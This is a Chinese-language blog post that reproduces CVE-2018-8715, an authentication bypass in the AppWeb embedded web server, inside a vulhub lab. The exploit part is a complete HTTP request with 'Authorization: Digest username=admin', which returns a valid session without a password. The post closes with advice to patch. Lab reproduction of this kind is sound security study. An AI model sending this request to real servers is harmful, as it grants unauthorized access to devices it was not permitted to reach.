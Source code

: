 ```yaml
---
title: AppWeb 漏洞复现
author: jh2ng
cover: 'http://image.jh2ing.com/image-20220626202035980.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 57611
date: 2022-06-26 20:18:00
---
```


### AppWeb认证绕过漏洞（CVE-2018-8715）

#### 漏洞描述

AppWeb是Embedthis Software LLC公司负责开发维护的一个基于GPL开源协议的嵌入式Web Server。他使用C/C++来编写，能够运行在几乎先进所有流行的操作系统上。当然他最主要的应用场景还是为嵌入式设备提供Web Application容器。

AppWeb可以进行认证配置，其认证方式包括以下三种：

- basic 传统HTTP基础认证
- digest 改进版HTTP基础认证，认证成功后将使用Cookie来保存状态，而不用再传递Authorization头
- form 表单认证

#### 影响版本

Appweb 7.0.2及早期版本

#### 环境搭建

![image-20220626194038634](http://image.jh2ing.com/image-20220626194038634.png)

访问 http://your-ip:8080，需要输入账号密码。

![image-20220626194244114](http://image.jh2ing.com/image-20220626194244114.png)

#### 漏洞复现

利用该漏洞需要知道一个已存在的用户名，当前环境下用户名为`admin`。

构造头`Authorization: Digest username=admin`，并发送如下数据包：

```
GET / HTTP/1.1
Host: example.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Digest username=admin
```

因为我们没有传入密码字段，所以服务端出现错误，直接返回了200，且包含一个session：

设置这个session到浏览器，即可正常访问需要认证的页面：

![image-20220626201043100](http://image.jh2ing.com/image-20220626201043100.png)

或者直接在登录界面输入账号，然后抓取数据包

![image-20220626201800103](http://image.jh2ing.com/image-20220626201800103.png)

**Authorization**仅保留`Digest username=admin`

![image-20220626201943185](http://image.jh2ing.com/image-20220626201943185.png)

然后forward：

![image-20220626202035980](http://image.jh2ing.com/image-20220626202035980.png)

#### 修复建议

打补丁或者直接升级到最新版
